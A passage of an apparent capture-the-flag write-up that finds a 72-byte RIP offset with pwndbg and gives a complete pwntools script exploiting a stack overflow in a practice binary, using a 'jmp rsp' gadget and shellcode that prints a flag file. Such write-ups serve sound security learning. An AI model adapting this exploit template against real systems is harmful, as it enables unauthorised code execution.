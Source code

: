 Let's get the first 8 characters of RSP `jaaaaaaaa` and get the offset

```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

We need 72 bytes to write the return address to jump and execute our shellcode. Let's create a python script to execute our shellcode.

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './fallout'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Start the executable
io = start()

# How many bytes to the instruction pointer (RIP)?
padding = 72

jmp_rsp = asm('jmp rsp')
jmp_rsp = next(elf.search(jmp_rsp))

shellcode = asm(shellcraft.cat('message.txt'))

shellcode += asm(shellcraft.exit())

payload = flat(
    asm('nop') * padding,
    jmp_rsp,
    asm('nop') * 16,
    shellcode
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b'>', payload)

# Receive the flag
io.interactive()
```
